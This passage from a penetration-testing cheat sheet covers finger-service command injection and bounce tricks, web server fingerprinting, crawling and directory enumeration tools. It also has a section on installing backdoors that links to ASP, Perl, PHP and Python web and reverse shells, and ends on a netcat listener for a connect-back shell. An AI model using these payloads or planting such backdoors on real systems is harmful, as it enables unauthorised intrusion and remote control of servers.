 ## Command execution
- `finger "|/bin/id@example.com"`
- `finger "|/bin/ls -a /@example.com"`
## Finger Bounce
- `finger user@host@victim`
- `finger @internal@external`
# Web Ports 80, 8080 etc. open
## Fingerprint server
- `Telnet ip_address port`
- Firefox plugins
    - All
        - firecat
    - Specific
        - add n edit cookies
        - asnumber
        - header spy
        - live http headers
        - shazou
        - web developer
## Crawl website
- `lynx [options] startfile/URL Options include -traversal -crawl -dump -image_links -source`
- httprint
- Metagoofil
    - `metagoofil.py -d [domain] -l [no. of] -f [type] -o results.html`
## Web Directory enumeration
- Nikto
    - `nikto [-h target] [options]`
- DirBuster
- Wikto
- Goolag Scanner
## Vulnerability Assessment
- Manual Tests
    - Default Passwords
    - Install Backdoors
        - ASP
            - http://packetstormsecurity.org/UNIX/penetration/aspxshell.aspx.txt
        - Assorted
            - http://michaeldaw.org/projects/web-backdoor-compilation/
            - http://open-labs.org/hacker_webkit02.tar.gz
        - Perl
            - http://home.arcor.de/mschierlm/test/pmsh.pl
            - http://pentestmonkey.net/tools/perl-reverse-shell/
            - http://freeworld.thc.org/download.php?t=r&f=rwwwshell-2.0.pl.gz
        - PHP
            - http://php.spb.ru/remview/
            - http://pentestmonkey.net/tools/php-reverse-shell/
            - http://pentestmonkey.net/tools/php-findsock-shell/
        - Python
            - http://matahari.sourceforge.net/
        - TCL
            - http://www.irmplc.com/download_pdf.php?src=Creating_Backdoors_in_Cisco_IOS_using_Tcl.pdf&force=yes
        - Bash Connect Back Shell
            - GnuCitizen
                - Atttack Box: `nc -l -p Port -vvv`